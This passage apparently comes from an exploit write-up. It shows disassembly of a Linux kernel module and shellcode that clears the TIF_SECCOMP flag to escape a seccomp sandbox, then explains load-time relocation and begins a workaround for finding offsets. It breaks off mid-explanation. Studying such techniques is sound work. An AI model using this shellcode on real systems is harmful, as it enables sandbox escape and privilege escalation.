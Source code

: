 ```
  3c:   48 8b 35 00 00 00 00    mov    rsi,QWORD PTR [rip+0x0]        # 43 <cleanup_module+0x24>
  43:   48 01 de                add    rsi,rbx
  46:   48 39 2e                cmp    QWORD PTR [rsi],rbp
  49:   75 0f                   jne    5a <cleanup_module+0x3b>
  4b:   48 89 f2                mov    rdx,rsi
  4e:   48 c7 c7 00 00 00 00    mov    rdi,0x0
  55:   e8 00 00 00 00          call   5a <cleanup_module+0x3b>
  5a:   48 81 c3 00 10 00 00    add    rbx,0x1000
  61:   48 81 fb 00 a1 3f 7c    cmp    rbx,0x7c3fa100
  68:   75 d2                   jne    3c <cleanup_module+0x1d>
  6a:   5b                      pop    rbx
  6b:   5d                      pop    rbp
  6c:   c3                      ret    
```

Now let's focus on this part only because we want to inject shellcode which can escape the seccomp.

```asm
   c:   65 48 8b 04 25 00 00    mov    rax,QWORD PTR gs:0x0
  13:   00 00 
  15:   48 81 20 ff fe ff ff    and    QWORD PTR [rax],0xfffffffffffffeff
  1c:   31 c0                   xor    eax,eax
  1e:   c3                      ret    
```

When you will try to run this shellcode your process will get SEGFAULT. it's because the instruction
`mov    rax,QWORD PTR gs:0x0` is expected to be resolved at load time

When the kernel loads a module containing the line of code `current->thread_info.flags = ~(1 << TIF_SECCOMP)`, it uses the symbol table and relocation information contained in the module's object file to map the symbolic names and offsets used in the code to their corresponding addresses in the kernel's address space.

For example, the symbol `current` is used to access a global variable in the kernel's address space. The symbol table will contain an entry for `current` that specifies the offset of the variable within the module's address space. When the kernel loads the module, it will use this information to determine the actual address of the `current` variable in the kernel's address space and update the code accordingly.

The `thread_info` and `flags` members of the `current` structure are accessed using offsets, which are also contained in the symbol table. When the kernel loads the module, it will use these offsets to determine the actual addresses of these members within the kernel's address space and update the code accordingly.

Finally, the `TIF_SECCOMP` constant is used as an argument to the `<<` operator, which shifts the value `1` to the left by the number of bits specified by `TIF_SECCOMP`. The result is then negated using the `~` operator, and the resulting value is stored in the `flags` member of the `thread_info` structure.

### Workaround

So, how can i get the offset the idea is simple you have to debug the running module to find the offsets. But wait how can i know which instructions are going to be resolved at load time you can use the -r flag in objdump when you will use the objdump with -r flag on the compiled module given in example your out will get output like this
